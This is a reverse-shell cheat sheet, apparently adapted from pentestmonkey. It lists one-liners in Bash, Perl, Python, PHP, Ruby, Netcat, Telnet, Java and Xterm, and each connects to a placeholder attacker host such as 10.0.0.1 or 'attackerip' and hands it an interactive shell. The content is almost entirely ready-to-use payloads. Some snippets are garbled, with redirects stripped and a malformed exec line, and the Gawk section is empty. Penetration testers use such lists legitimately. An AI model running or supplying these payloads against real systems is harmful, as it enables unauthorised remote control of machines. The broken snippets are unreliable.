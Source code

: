 # Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```
exec /bin/bash 0&0 2>&0
```

```
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Create a new descriptor which is assigned to a network node. Then we will read and write to that descriptor (does not work in Debian):

```
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  
# or:
while read line 0<&5; do $line 2>&5 >&5; done
```

Banner a HTTP server using Bash:

```
#!/bin/bash
exec 3 /dev/tcp/$1/80
echo -e "Get /simple?se=1 HTTP/1.0\n" >&3
cat <&3
```

# Perl

Unix:

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
# Without IO
perl -MIO::Socket -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr => "127.0.0.1:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

Windows

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
# Without IO
perl -MIO::Socket -e '$c=new IO::Socket::INET(PeerAddr => "127.0.0.1:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
print $sock eval(<$sock>) while ($sock ||= IO::Socket::INET->new(PeerAddr => "127.0.0.1", PeerPort => "23666"))
```

# Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
<?php $sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

# Ruby

Unix

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

Windows

```
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

# NetCat

```
nc -e /bin/sh 10.0.0.1 1234
```

```
nc -c /bin/sh 10.0.0.1 1234
```

```
/bin/sh | nc attackerip 4444
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

```
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p 2>&1
```

Two connections:

```
nc localhost 1233 | /bin/sh | nc 127.0.0.1 1234
```

# Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p 2>&1
```

```
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp
```

# Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# Xterm

```
xterm -display attackerip:1
# Or:
DISPLAY=attackerip:0 xterm
```

On solaris `/usr/openwin/bin/xterm -display attackerip:1`

```
Xnest :1
xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
xhost +targetip             # Run this INSIDE the spawned xterm on the open X Server
```

# Gawk

``

# References

- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

- <https://www.gnucitizen.org/blog/reverse-shell-with-bash>
